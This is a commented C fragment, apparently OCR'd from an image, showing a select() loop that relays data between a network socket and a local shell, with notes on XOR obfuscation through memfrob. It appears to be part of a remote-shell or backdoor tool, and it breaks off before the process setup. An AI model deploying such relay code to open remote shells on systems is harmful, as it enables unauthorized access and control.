 ```C
// other for networking (s).
void
async_read (int s, int s1)
{
        fd_set rfds;
        struct timeval tv;
        int max = s > s1 ? s : s1;
        int len, r;
        char buffer[BUF_SIZE];  /* 1024 chars */
        max++;

        while (1)
        {
                // macros to initialize the file descriptor set
                FD_ZERO(&rfds);
                FD_SET(s,&rfds);
                FD_SET(s1,&rfds);

                /* Time out. */
                // set to 1 second
                // microseconds resolution
                tv.tv_sec = 1;
                tv.tv_usec = 0;

                // standard select loop for a network application.
                if ((r = select (max, &rfds, NULL, NULL, &tv)) < 0)
                {
                        perror ("select:");
                        exit (EXIT_FAILURE);
                }
                else if (r > 0) /* If there is data to process */
                {
                // The memfrob function does a XOR crypting with
                // key (42). The greatest thing about XOR crypting is that the
                // same function can be used for crypt and decrypt. Other than
                // that, with a 1 byte long key (42 in this case) it is pretty
                // useless.
                        if (FD_ISSET(s, &rfds))
                        {
                                // get data from network using function pointer,
                                // and resend it to our shell.
                                memset (buffer, 0, BUF_SIZE);
                                if ((len = net_read (s, buffer, BUF_SIZE)) == 0) continue;
                                write (s1, buffer, len);
                        }
                        if (FD_ISSET(s1, &rfds))
                        {
                                // get data from our shell, then
                                // we send it back through the network using the
                                // function pointer.
                                memset (buffer, 0, BUF_SIZE);
                                if ((len = read (s1, buffer, BUF_SIZE)) <= 0) exit (EXIT_FAILURE);
                                net_write (s, buffer, len);
                        }
                }
        }
}

// Set up the socket pair and create a new process (using fork)
//
// Function creates a socket pair using the syscall socketpair).
// The fork system call creates a new process as an identical image
// that make use of the sp socketpair to communicate both processes.
```